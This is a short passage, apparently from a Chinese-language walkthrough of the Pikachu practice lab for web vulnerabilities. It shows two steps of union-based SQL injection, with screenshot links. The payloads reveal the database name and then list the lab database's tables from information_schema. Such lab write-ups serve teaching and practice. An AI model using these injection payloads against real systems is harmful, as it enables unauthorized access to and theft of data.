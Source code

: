 4.爆库名`-1' union select database(),2#`

![QQ图片20200305113621.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305113621.png)

5.爆表名`-1' union select (select group_concat(table_name) from information_schema.tables where table_schema='pikachu'),2#`

![LTIEN1IOOH%PH}3MZS~%XXP.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/LTIEN1IOOH%25PH%7D3MZS%7E%25XXP.png)
